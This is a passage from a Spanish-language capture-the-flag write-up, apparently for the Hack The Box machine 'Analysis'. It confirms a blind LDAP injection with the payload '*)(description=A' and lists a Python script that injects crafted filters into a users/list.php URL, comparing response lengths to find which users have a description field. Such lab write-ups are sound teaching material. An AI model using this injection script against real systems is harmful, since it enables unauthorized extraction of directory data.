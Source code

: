 Pero este otro payload no `*)(description=A`
![Write-up Image](images/Screenshot_10.png)

Esto significa que tenemos una inyección a ciegas, y podemos filtrar la descripción de cada usuario.

Falta scriptearlo. Si esto no funciona, podemos modificar el script para descubrir campos que quizás nos interesen.

Primero me interesa saber que usuarios tienen una descripción.

```python
#!/usr/bin/python3
import requests
from pwn import *
import string

URL = "http://internal.analysis.htb/users/list.php?name=<USER>)(description=<DESC>"
DEFAULT_LEN = 406
alphabet = string.ascii_letters + string.digits + "_@{}-/!\"$%=^[]:;"

def brute(user):
    forged_url = URL.replace("<USER>", user)
    p = log.progress("Probando carácter ->")
    for char in alphabet:
        p.status(char)
        r = requests.get(forged_url.replace("<DESC>", char + "*"))
        if (len(r.text) != DEFAULT_LEN):
            p.success("El usuario %s tiene descripción" % user)
    

def desc():
    with open('users.txt', 'r', encoding="utf-8") as file:
        p = log.progress("Usuario ->")
        for user in file:
            username = user.strip()
            p.status(username)
            brute(username)
            
            

if __name__ == "__main__":
    desc()
```
